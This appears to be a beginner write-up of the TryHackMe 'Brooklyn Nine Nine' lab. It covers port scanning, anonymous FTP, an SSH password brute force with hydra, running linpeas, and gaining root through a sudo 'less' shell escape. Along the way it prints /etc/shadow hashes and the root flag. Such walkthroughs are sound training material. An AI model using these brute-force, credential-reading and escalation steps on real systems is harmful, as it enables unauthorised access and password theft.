


# Try Hack Me Writeup - Brooklyn Nine Nine

TryHackMe room: https://tryhackme.com/room/brooklynninenine

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Tools Used](#tools-used)
- [Tasks](#tasks)
- [Port and Service enumeration](#port-and-service-enumeration)
- [Looking at the FTP server](#looking-at-the-ftp-server)
- [Looking at the webserver](#looking-at-the-webserver)
- [Brute forcing the SSH server](#brute-forcing-the-ssh-server)
- [Privilege escalation](#privilege-escalation)
- [Todo](#todo)

## Tools Used

- `nmap`
- `ftp`
- `hydra`
- `linpeas`

## Tasks

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.

User flag

    ee*****19052e40b07aac0ca0*****ee

Root flog

    63*****a7bb98050796b649e8*****45

## Port and Service enumeration

We don't have a lot of information about the tasks, except to get a `user` and a `root` flag. So we will have to do a good job at information gathering before trying to kick out all doors like a big pig.

Let's start with a `nmap` scan:

```commandline
# nmap -p- -A 10.10.15.48
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-30 22:26 CEST
Nmap scan report for 10.10.15.48
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.208.30
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/30%OT=21%CT=1%CU=31921%PV=Y%DS=2%DC=T%G=Y%TM=610460B
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   29.57 ms 10.8.0.1
2   29.67 ms 10.10.15.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.35 seconds
```

3 nice services are running, `FTP`, `SSH` and `HTTP` running on a Linux (Ubuntu).

## Looking at the FTP server

So, it's clear, we need to check out that file on the `ftp` server as anonymous `ftp` logins are allowed and that `note_to_jake.txt` is readable by everyone. As well as give a look to the webserver. The `ssh` server I will try to slam him later on with some bruteforce dictionary attack. This is usually very easy to do with a bruteforce dictionary attack if the server isn't protected and if we are lacking password policies. 

We maybe have already `jake` as username. I could try already to bruteforce the ssh server. But still not. We need to gather more information first. Who know I got banned if I want to go too fast.

Let's handle that ftp server first:

```commandline
$ ftp 10.10.15.48
Connected to 10.10.15.48.
220 (vsFTPd 3.0.3)
Name (10.10.15.48:itchy): 
530 This FTP server is anonymous only.
Login failed.
ftp> dir
530 Please login with USER and PASS.
ftp: bind: Address already in use
ftp> user
(username) anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (30.9236 kB/s)
ftp> exit
```

So I logged in like show, then only have passed to user `anonymous`. What is not clear here is the blanc password. Just pressed enter as anonymous login is allowed. We just need to log in with `anonymous` and that's a point to keep in mind. Then I have downloaded (get) the `note_to_jake.txt` file.

```commandline
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

A message from user `Amy`, so this confirm that `Jake` is a username and probably `holt` can be too. My english is maybe bad, but the word `holt` doesn't tell me something. But you never know with their street language.

## Looking at the webserver

Let's take a closer look to the webserver.



I can confirm that the image resize, it was a bit annoying to get around it for my screenshot :-D

Looking to the source code, not interested in the `css` code, but other tricks, revealed me this nice information `<!-- Have you ever heard of steganography? -->`



I wonder why they didn't use a nice fat high-res png file. I could have used that as desktop background. What can I do with a 533x300 pixels `jpg` image... Or can we not store secret messages in `png` files? I doubt about it.


I tried to look around on how to extract the hidden data into that picture, but I'm clueless. I don't know which app they used and what encryption and passphrase they used, let alone all the technical things behind it. No time to play around for maybe nothing. I also found this website <https://stylesuxx.github.io/steganography/> to encode and decode but once decoded, even the chinese language would be easier to understand. I guess they are trying to get fun on my face. So I put this on hold as I maybe need a hint or gather more information.

## Brute forcing the SSH server

Let's look about that ssh server first.

```commandline
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.15.48 ssh -V -I
```

I did not even have had the time to scratch my butt that the password was cracked. Nice job `Jake`, pardon, `hydra`.

```commandline
[22][ssh] host: 10.10.15.48   login: jake   password: *********
```

Let's try to login on the ssh server

```commandline
ssh jake@10.10.15.48
ake@brookly_nine_nine:~$ ls -lah
total 48K
drwxr-xr-x 7 jake jake 4.0K Jul 30 22:07 .
drwxr-xr-x 5 root root 4.0K May 18  2020 ..
-rw------- 1 root root 1.4K May 26  2020 .bash_history
-rw-r--r-- 1 jake jake  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jake jake 3.7K Apr  4  2018 .bashrc
drwx------ 2 jake jake 4.0K May 17  2020 .cache
drwxr-x--- 3 jake jake 4.0K Jul 30 22:07 .config
drwx------ 3 jake jake 4.0K Jul 30 22:07 .gnupg
-rw------- 1 root root   67 May 26  2020 .lesshst
drwxrwxr-x 3 jake jake 4.0K May 26  2020 .local
-rw-r--r-- 1 jake jake  807 Apr  4  2018 .profile
drwx------ 2 jake jake 4.0K May 18  2020 .ssh
-rw-r--r-- 1 jake jake    0 May 17  2020 .sudo_as_admin_successful
```

That `.sudo_as_admin_successful` is a serious hint I bet! I will get confirmation with `linepeas` ;-)

Did not found anything interesting in `amy's` and `jakes's` home folder. Except a file in `holt's` home:

```commandline
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee*****19052e40b07aac0ca0*****ee
```

So here we go for the `user` flag :-P

A quick and dirty and useless abuse of <https://crackstation.net> tells that the result of this hash is `user`. But why should I bother in fact :-D Still, this can be a hint too.

## Privilege escalation

I looked around but I did not find something else. I need better eyes, so I want to make use of the `linepaes` tool. As there is no internet on that virtual machine (technical issue with internet on these vm's while there is supposed to be internet... Go figure it out), I have to tackle this differently and `scp` it from my `kali` machine. But then I leave extra traces this way.

So from my `kali` machine:

```commandline
$ scp /home/itchy/Downloads/linpeas.sh jake@10.10.15.48:/tmp/
```

Back on the victims machine we launch `linpeas` and pipe it to tee to log everything in a temp file.

```commandline
$ chmod +x /tmp/linpeas.sh
$ /tmp/linpeas.sh | tee /tmp/linpeas.log
```

Saw immediately that in the terminal output of `linepeas` that `Sudo version 1.8.21p2` is installed, a very good version for privilege escalation :-D

And it confirmed:

```commandline
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                         
Matching Defaults entries for jake on brookly_nine_nine:                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

So let's make a good abuse of this privilege escalation + a good guess:

```commandline
sudo /usr/bin/less /etc/shadow
```

We enter into the `/etc/shadow` file with the `less` application. It's maybe time to make a copy of all these `hashes` so that I can play with it but no, we first redo the same with the `/etc/passwd` file as we need both of this info to be able to crack the passwords. Anyway, we don't mind about passwords :-D

```
amy:$6$UKs4AX7L$8Q1ET3/4EDtczkEAde4Bkc9g4ao2v3IRbapkqtNnWaKa7a2UHbYGsAEqBPlAwXVq8LK39IRjPwmocYkkkikrR0:18399:0:99999:7:::
holt:$6$arvDAeLb$qQX5UfC/TdI2GELzcrI88B7aD.3NGI9eGyhIQPNdtFIcTfzNdSrxt212lOdNM./UQ0dInL0ej4UliuHKKQcjk0:18399:0:99999:7:::
jake:$6$sAa2xMd5$/EyF9jL6BNeNEYixHkn86Gcvg8UeVJl7FvjXcJH1InhrwObBcN7qecniXkq.Bq1nFA8YS8HD2uk/jf8Ju7KnW0:18401:0:99999:7:::
```

Like we are in the `less` application with privilege escalation modus turned on, we can run a command instead of just pressing `q` to exit, type in `!/bin/sh` which will run the default shell and you end up with super cow power. You can find more information about his here for example: https://superuser.com/questions/521399/how-do-i-execute-a-linux-command-whilst-using-the-less-command-or-within-the-man

```
jake@brookly_nine_nine:~$ sudo less /etc/shadow
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -lah /root/
total 32K
drwx------  4 root root 4.0K May 18  2020 .
drwxr-xr-x 24 root root 4.0K May 19  2020 ..
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4.0K May 17  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4.0K May 18  2020 .ssh
-rw-r--r--  1 root root  165 May 17  2020 .wget-hsts
-rw-r--r--  1 root root  135 May 18  2020 root.txt
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# uname -a
Linux brookly_nine_nine 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Voila voila! We got the 2 flags!

# Todo 

For later on because it's very late now :-|

* Apparently there are 2 ways to get root access. Need to find the other one.
* Investigate on that image. I guess they have put something funny into ito no? We are all monkeys after all.
